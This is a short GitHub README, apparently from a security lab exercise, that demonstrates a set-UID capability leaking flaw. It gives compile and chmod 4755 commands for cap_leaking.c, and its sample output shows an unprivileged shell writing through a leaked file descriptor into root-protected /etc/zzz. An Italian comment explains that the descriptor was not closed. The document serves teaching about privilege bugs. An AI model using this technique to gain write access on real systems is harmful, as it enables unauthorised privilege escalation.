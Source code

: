 # capability-leak-attack
This is a linux bash capability leak attack whit C program.

CAPABILITY LEAKING of set-UID

You need to compile cap_leaking.c
`gcc -o cap_leaking cap_leaking.c`

change the user owner and set the set-UID in the cap_leaking file
`sudo chown root cap_leaking`
`sudo chmod 4755 cap_leaking`


Now if I run the program it print the number of file descriptor.
- `fd is 3`
- `Real user id is 1000`
- `Effective user id is 1000`
- `$whoami`
- `$seed`
- `$echo bbbbbb >&3`
- `$cat /etc/zzz`
- `$this is a very important file`
- `bbbbbb`



######
Il problema qua e' che non e' stato chiuso il file descriptor del file e quindi la shell che apro ha gli stessi privilegi di root.
Il file descriptor e' indicato con il numero 3
Normalemente non sono abilitato a scrivere nel file zzz ma quando abilito il 4755 chmod nel programma .c allora apro la shell con gli stessi privilegi del proprietario del file cioe' root.
#####
